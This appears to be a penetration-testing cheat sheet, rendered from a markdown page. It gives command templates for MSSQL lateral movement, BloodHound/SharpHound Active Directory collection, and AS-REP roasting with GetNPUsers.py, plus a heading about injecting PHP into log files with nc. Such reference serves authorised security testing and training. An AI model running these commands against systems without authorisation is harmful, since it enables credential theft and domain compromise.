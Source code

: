 ## inject php code in logfile with nc and retrieve it afterwards
> search for nc

--- 

# mssqlclient.py
- service: sql
- tactics: lateral_movement
- suites: impacket

## connect to windows mssql Server
- `mssqlclient.py -windows-auth username@target-ip`

---

# mssql-cli
- service: sql
- tactics: lateral_movement

## connect to windows mssql Server
- `mssql-cli -S target-ip -U username`

---

# bloodhound
- service: ldap
- serivce: active_directory
- tactics: lateral_movement
- tactics: privilege_escalation

## invoke-bloodhound from sharphound.ps1 
- `import-module .\sharphound.ps1`
- `invoke-bloodHound -CollectionMethod All -domain target-domain -LDAPUser username -LDAPPass password`

---

# getnpusers.py
- service: kerberos
- tactics: credential_access
- tactics: lateral_movement

## check ASREPRoast for all domain users (credentials required)
- `python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`
